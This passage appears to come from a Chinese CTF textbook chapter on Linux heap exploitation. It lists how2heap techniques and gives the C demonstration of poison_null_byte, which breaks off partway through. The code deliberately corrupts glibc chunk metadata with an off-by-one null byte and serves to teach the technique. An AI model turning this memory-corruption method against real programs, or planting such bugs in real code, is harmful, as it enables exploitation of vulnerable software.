 # 3.3.6 Linux 堆利用（中）

- [how2heap](#how2heap)
  - [poison_null_byte](#poison_null_byte)
  - [house_of_lore](#house_of_lore)
  - [overlapping_chunks](#overlapping_chunks)
  - [overlapping_chunks_2](#overlapping_chunks_2)
  - [house_of_force](#house_of_force)
  - [unsorted_bin_attack](#unsorted_bin_attack)
  - [house_of_einherjar](#house_of_einherjar)
  - [house_of_orange](#house_of_orange)


[下载文件](../src/Others/3.3.5_heap_exploit)

#### poison_null_byte
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main() {
    uint8_t *a, *b, *c, *b1, *b2, *d;

    a = (uint8_t*) malloc(0x10);
    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "We allocate 0x10 bytes for 'a': %p\n", a);
    fprintf(stderr, "'real' size of 'a': %#x\n", real_a_size);

    b = (uint8_t*) malloc(0x100);
    c = (uint8_t*) malloc(0x80);
    fprintf(stderr, "b: %p\n", b);
    fprintf(stderr, "c: %p\n", c);

    uint64_t* b_size_ptr = (uint64_t*)(b - 0x8);
    *(size_t*)(b+0xf0) = 0x100;
    fprintf(stderr, "b.size: %#lx ((0x100 + 0x10) | prev_in_use)\n\n", *b_size_ptr);
    
    // deal with tcache
    // int *k[10], i;
    // for (i = 0; i < 7; i++) {
    //     k[i] = malloc(0x100);
    // }
    // for (i = 0; i < 7; i++) {
    //     free(k[i]);
    // }
    free(b);
    uint64_t* c_prev_size_ptr = ((uint64_t*)c) - 2;
    fprintf(stderr, "After free(b), c.prev_size: %#lx\n", *c_prev_size_ptr);

    a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
    fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
    fprintf(stderr, "b.size: %#lx\n\n", *b_size_ptr);

    fprintf(stderr, "Pass the check: chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n", *((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
    b1 = malloc(0x80);
    memset(b1, 'A', 0x80);
    fprintf(stderr, "We malloc 'b1': %p\n", b1);
    fprintf(stderr, "c.prev_size: %#lx\n", *c_prev_size_ptr);
    fprintf(stderr, "fake c.prev_size: %#lx\n\n", *(((uint64_t*)c)-4));

```